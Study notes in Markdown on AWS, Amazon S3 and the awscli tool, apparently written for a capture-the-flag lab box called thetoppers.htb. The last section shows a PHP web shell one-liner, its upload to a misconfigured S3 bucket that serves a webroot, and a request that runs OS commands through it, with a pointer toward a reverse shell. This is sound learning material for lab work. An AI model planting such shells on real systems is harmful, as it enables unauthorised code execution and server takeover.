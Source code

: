 # Amazon

## Content
- [AWS]()
- [Amazon S3]()
- [awscli]()
  - [Install]()
  - [Configure]()
  - [List S3 Objects]()
  - [Copy Files to an S3 Bucket]()

----
## [AWS](https://aws.amazon.com/)
> Amazon Web Services offers a broad set of global cloud-based products including compute, storage, databases, analytics, networking, mobile, developer tools, management tools, IoT, security, and enterprise applications: on-demand, available in seconds, with pay-as-you-go pricing
- It's basically Amazon's SaaS cloud computing platform ([doc](https://aws.amazon.com/what-is-aws/?nc1=f_cc)).
- One of those cloud services AWS offers is their **_storage_** option: Amazon S3.

## [Amazon S3](https://aws.amazon.com/s3/)
> Amazon Simple Storage Service (Amazon S3)
- Amazon Simple Storage Service (Amazon S3) is an object storage service.
  - Customers can use Amazon S3 to store and protect any amount of data for a range of use cases.
  - Amazon S3 provides management features so that you can optimize, organize, and configure access to your data to meet your specific requirements.
- Amazon S3 stores data as _objects_ within _buckets_.
  - An [objects](https://docs.aws.amazon.com/AmazonS3/latest/userguide/UsingObjects.html) is a file and any metadata that describes the file.
    - Objects are the fundamental entities stored in Amazon S3.
    - Each object can be up to 5 TB in size.
  - A _[bucket](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html)_ is a container for objects.
- If you access an S3 subdomain (e.g., `http://s3.thetoppers.htb`) and you see the json key:value pair: `{"status": "running"}`, you know you're dealing with an active S3 storage service.

## [awscli](https://aws.amazon.com/cli/)
> The AWS Command Line Interface (AWS CLI) is a unified tool to manage your AWS services. With just one tool to download and configure, you can control multiple AWS services from the command line and automate them through scripts.
- You can interact with AWS, including an S3 bucket, with `awscli` (AWS Command Line Interface)

### Install
```
apt install awscli
```

### Configure
```
aws configure
```
- When prompted, just use an arbitrary values (e.g., "temp") for the responses to the required fields. 

### List S3 Objects
- Use the `ls` command to list the objects and common prefixes under (in) the specified bucket:
```
aws --endpoint=http://s3.[domain name] s3 ls s3://[domain name]
# Results, example (for s3.thetoppers.htb): 
#                          PRE  images/
#  2024-02-24 15:02:08      0  .htaccess
#  2024-02-24 15:02:08  11952  index.php
```
- This particular example is that of the webroot of a website. An Apache server is using this S3 bucket as storage for the website's files. 

### Copy Files to an S3 Bucket
- In the example above, we could try uploading a PHP shell file to the S3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we will achieve remote code execution.
- Continuing with that example...
```
# create a PHP file to upload
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# upload that file with awscli
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
- Test that uploaded file by accessing it through the website: `http://thetoppers.htb/shell.php?cmd=id`
- If the response from the server contains the output of the OS command `id`, then we have code execution on the box. Now you'd just need to work out a reverese shell, etc. 








